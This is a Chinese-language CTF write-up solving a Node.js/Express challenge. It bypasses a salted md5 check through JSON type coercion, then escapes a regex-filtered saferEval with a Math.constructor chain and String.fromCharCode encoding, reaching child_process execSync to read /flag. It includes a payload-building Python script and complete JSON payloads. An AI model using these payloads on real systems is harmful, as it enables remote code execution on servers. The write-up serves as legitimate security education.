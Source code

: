 ```yaml
---
Author: SuperJason
Date: 2020-1-14
---
```


## 思路

1. 打开页面，审计源码。   
   ![](../images/npuctf-验证码-1.png)
2. 本题使用了express服务器，基于nodejs，需要输入正确的`e、first、second`，服务器会将公式经过正则过滤后执行，调用eval函数。
    ```javascript
    app.post('/', function (req, res) {
    let result = '';
    const results = req.session.results || [];
    const { e, first, second } = req.body;
    if (first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0])) {
        if (req.body.e) {
        try {
            result = saferEval(req.body.e) || 'Wrong Wrong Wrong!!!';
        } catch (e) {
            console.log(e);
            result = 'Wrong Wrong Wrong!!!';
        }
        results.unshift(`${req.body.e}=${result}`);
        }
    }
    ```
3. 两个验证码内容不同，长度相等，且加盐后的md5值相同，利用js强制类型转化。由于后端可解析json，利用json数据构造类型转换。利用burpsuite是需要将请求头文本内容改为`Content-Type: application/json`，传入以下json数据，得到公式结果。
- {"e":"1+1","first":"1","second":[1]}
- {"e":"1+1","first":"1","second":"1"}
  ![](../images/npuctf-验证码-2.png)
4. 参考[wp](https://blog.csdn.net/weixin_43610673/article/details/105898440)。为了绕过正则表达式，使用了箭头函数从原型链导出String和Function，脚本如下
```python
import re
encode = lambda code: list(map(ord,code))
decode = lambda code: "".join(map(chr,code))
a=f"""
(m0=>(
		m0=m0.constructor,
		m0.x=m0.constructor(
			m0.fromCharCode({encode("return process.mainModule.require('child_process').execSync('cat /flag')")})
		)()
	))(Math+1)
"""
a=re.sub(r"[\s\[\]]", "", a).replace("m0","Math")
print(a)
```
5. payload如下
- {"e":"(Math=>(Math=Math.constructor,Math.x=Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()))(Math+1)","first":"1","second":[1]}
- {"e":"(Math=>(Math=Math.constructor,Math.x=Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()))(Math+1)","first":{"length":"1"},"second":{"length":"1"}}
  ![](../images/npuctf-验证码-3.png)

6. payload分为两部分，构造函数利用链+经过String.fromCharCode编码的载荷
- 构造函数利用链  ```(Math=>(Math=Math.constructor,Math.x=Math.constructor(Math.fromCharCode({编码后的payload}))()))(Math+1)```
- 未经过编码的载荷  ```return process.mainModule.require('child_process').execSync('cat /flag')```
## 总结
之前只知道express和原型链，现在算是加深了对他们的理解，有点类似于php魔法函数的感觉。本题核心漏洞点在于使用eval函数执行用户可控的数据，且正则过滤不完全。
- 两个验证码内容不同，长度相等，且加盐后的md5值相同，考虑强制类型转化
    - {"first":"1","second":[1]}
    - {"first":"1","second":"1"}
- 使用原型链绕过re，构造出String.fromCharCode函数，编码载荷让后端express执行。
- [nodejs常见漏洞](https://threezh1.com/2020/01/30/NodeJsVulns/)
